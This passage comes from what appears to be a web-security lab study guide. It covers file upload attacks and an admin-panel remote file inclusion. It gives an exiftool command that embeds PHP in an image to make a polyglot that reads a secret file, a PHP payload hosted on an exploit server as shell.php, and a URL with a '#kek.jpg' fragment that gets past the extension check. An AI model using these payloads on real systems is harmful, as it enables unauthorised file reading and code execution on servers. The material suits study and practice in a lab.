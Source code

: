 \documentclass[
  letterpaper,
]{article}
\begin{document}
\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" lel.jpg -o polyglot.php
\end{Verbatim}

\begin{quote}
\url{https://www.cyberhacks200.org/post/file-upload-attacks-explained}\strut \\
\url{https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload\%20Insecure\%20Files}
\end{quote}

\subsubsection{6. Admin Panel RFI}\label{6-admin-panel-rfi}

\begin{quote}
RFI function on target allow the upload of image from remote HTTPS URL
source and perform to validation checks, the source URL must be HTTPS
and the file extension is checked. Incorrect RFI result in response
message, \textbf{File must be either a jpg or png}.
\end{quote}

\begin{quote}
\textbf{IMAGE PLACEHOLDER:} Insert the corresponding source image here in a later revision.
\end{quote}
To exploit this vulnerability, paste php payload in body section of your
exploit server and name it shell.php:

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
<?php echo file_get_contents('/home/carlos/secret'); ?>
\end{Verbatim}

To bypass filters and provoke RFI, use the next payload:

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
https://exploit-server.com/shell.php#kek.jpg
\end{Verbatim}

\section{JWT}\label{jwt}

\subsection{Approach}\label{approach-20}
\end{document}
